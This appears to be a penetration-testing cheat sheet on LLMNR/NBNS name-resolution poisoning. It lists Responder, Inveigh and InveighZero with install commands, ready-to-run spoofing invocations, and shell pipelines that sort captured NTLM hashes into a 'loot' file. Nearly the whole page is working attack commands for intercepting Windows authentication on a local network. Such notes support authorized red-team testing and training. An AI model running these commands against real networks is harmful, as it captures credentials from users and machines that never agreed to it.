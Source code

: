 ```yaml
---
description: Link-Local Multicast Name Resolution / NetBIO Name Service
---
```


# LLMNR/NBNS Poisoning




## Responder

* [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
* [https://github.com/lgandx/Responder](https://github.com/lgandx/Responder)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://markclayton.github.io/where-are-my-hashes-responder-observations.html](https://markclayton.github.io/where-are-my-hashes-responder-observations.html)

Install:

```
$ git clone https://github.com/lgandx/Responder ~/tools/Responder && cd ~/tools/Responder
```

Run:

```
$ sudo python3 Responder.py -I eth0 -Av
$ sudo python3 Responder.py -I eth0 -wPdD -v
```

Parse, sort and save NTLM hashes:

```
# Users
$ cat logs/*.txt | grep -a . | grep -a -v -e 'logs/' -e '\$' | sort -u -t: -k1,1 > net-ntlmv2.responder
$ sort -u -t: -k1,1 net-ntlmv2.responder ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.responder

# Machines
$ cat logs/*.txt | grep -a '\$' | sort -u -t: -k1,1
```




## Inveigh

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

```
PS > Invoke-Inveigh [-IP '10.10.13.37'] -ConsoleOutput Y -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y
```




## InveighZero

* [https://github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
PS > .\InveighZero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]
```
